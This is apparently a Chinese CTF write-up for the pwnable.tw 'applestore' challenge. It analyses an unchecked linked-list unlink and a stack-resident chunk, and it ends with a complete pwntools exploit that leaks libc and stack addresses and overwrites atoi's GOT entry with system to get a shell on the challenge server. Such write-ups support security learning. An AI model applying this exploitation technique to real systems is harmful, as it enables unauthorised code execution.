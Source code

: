 # pwnable.tw applestore

### 0x1 分析

看一下安全性：

```shell
[*] './applestore'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

地址固定。

常规的菜单题：

```c
int menu()
{
  puts("=== Menu ===");
  printf("%d: Apple Store\n", 1);
  printf("%d: Add into your shopping cart\n", 2);
  printf("%d: Remove from your shopping cart\n", 3);
  printf("%d: List your shopping cart\n", 4);
  printf("%d: Checkout\n", 5);
  return printf("%d: Exit\n", 6);
}
```

观察`Add()`函数可以发现`create`和`insert()`创造了一个单向链表来存每一个块。

每个块的结构：

```c
struct chunk{
  void *name;
  int price;
  void *next;
  void *pre;
}
```

然后在`delet()`里面有个没有检查的unlink。

在`checkout()`里有个额外的块放在了栈上：

```c
if ( v1 == 7174 )
  {
    puts("*: iPhone 8 - $1");
    asprintf(&v2, "%s", "iPhone 8");
    v3 = 1;
    insert((int)&v2);
    v1 = 7175;
  }
```

而观察这个位置，会发现：

```c
// checkout()
char *v2; // [esp+18h] [ebp-20h]
int v3; // [esp+1Ch] [ebp-1Ch]
unsigned int v4; // [esp+2Ch] [ebp-Ch]
```

```c
// delete()
int idx; // [esp+18h] [ebp-30h]
int next; // [esp+1Ch] [ebp-2Ch]
int pre; // [esp+20h] [ebp-28h]
char nptr; // [esp+26h] [ebp-22h]
my_read(&nptr, 0x15u);
```

```c
// add()
char **v1; // [esp+1Ch] [ebp-2Ch]
char nptr; // [esp+26h] [ebp-22h]
unsigned int v3; // [esp+3Ch] [ebp-Ch]
my_read(&nptr, 0x15u);
```

```c
//cart()
char buf; // [esp+26h] [ebp-22h]
unsigned int v6; // [esp+3Ch] [ebp-Ch]
my_read(&buf, 0x15u);
```

刚好这个块是我们可控的。我们可以修改其`next`和`pre`指向任意位置。也可以利用`name`，来泄漏任何位置。

#### 漏洞利用

- 获得这个块
- 构造这个块的`name`指向`atoi()`的GOT，可以leak libc
- 构造这个块的`name`指向`environ`，可以泄漏环境变量的位置，从而获得任意栈位置。（地址固定==>地址偏移量固定）
- 构造这个块使unlink的时候，让`delete()`的旧`ebp`指向`atoi + 0x22`从而在`handler()`修改其为`system`，从而get shell
- 具体构造见EXP。

### 0x2 EXP

```python
#! /usr/bin/python
#-*- coding: utf-8 -*-
from pwn import *
 
context.terminal = ['tmux', 'splitw', '-h']
context(arch = 'i386' , os = 'linux', log_level='debug')

# p = process('./applestore')
p = remote('chall.pwnable.tw', 10104)
elf = ELF('./applestore')
# libc = ELF('/lib/i386-linux-gnu/libc.so.6')
libc = ELF('libc_32.so.6')

def debug(p, cmd):
    gdb.attach(p, cmd)
    pause()

def add(idx):
    p.sendlineafter('> ', '2')
    p.sendlineafter('Device Number> ', str(idx))

def delete(idx):
    p.sendlineafter('> ', '3')
    p.sendlineafter('Item Number> ', str(idx))

def cart(content = 'y\n'):
    p.sendlineafter('> ', '4')
    p.sendlineafter('Let me check your cart. ok? (y/n) > ', content)

def checkout():
    p.sendlineafter('> ', '5')
    p.sendlineafter('Let me check your cart. ok? (y/n) > ', 'y\n')

# get iphone8
for i in range(20):     # idx 1  - 20
    add(2)
for i in range(6):      # idx 21 - 26
    add(1)
checkout()

# leak libc
payload = "y\x00" + p32(elf.got['atoi']) + p32(0) + p32(0) + p32(0)
cart(payload)
p.recvuntil('27: ')
atoi_addr = u32(p.recv(4))
libc_base = atoi_addr - libc.symbols['atoi']
libc.address = libc_base
system_addr = libc.sym['system']
sh_addr = next(libc.search('/bin/sh'))
environ = libc.sym['environ']
print ('libc_base', hex(libc_base))
print ('system_addr: ', hex(system_addr))
print ('sh_addr: ', hex(sh_addr))
print ('environ: ', hex(environ))
# p.interactive()
# pause()

# leak stack
payload = "y\x00" + p32(environ) + p32(0) + p32(0) + p32(0)
cart(payload)
p.recvuntil('27: ')
handle_ebp = u32(p.recv(4)) - 0xc4 # b *0x08048BD6
delete_ebp = handle_ebp - 0x40  # 0xffffd598 —▸ 0xffffd5d8
print (hex(handle_ebp))
# pause()

# get shell
payload = '27\x00' + '\x00' * 0x3 + p32(0) + p32(elf.got['atoi'] + 0x22) + p32(delete_ebp - 0x8)
delete(payload)
payload = p32(system_addr) + b';sh;'
p.sendlineafter('> ', payload)
p.interactive()
```

